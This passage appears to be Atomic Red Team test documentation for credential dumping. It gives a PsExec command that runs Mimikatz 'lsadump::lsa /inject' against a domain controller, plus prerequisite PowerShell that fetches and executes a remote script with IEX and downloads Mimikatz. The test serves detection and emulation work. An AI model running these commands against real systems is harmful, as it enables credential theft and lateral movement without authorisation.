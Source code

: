 The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{psexec_path}" /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases -UseBasicParsing | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" -UseBasicParsing
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "#{psexec_path}" -Force
```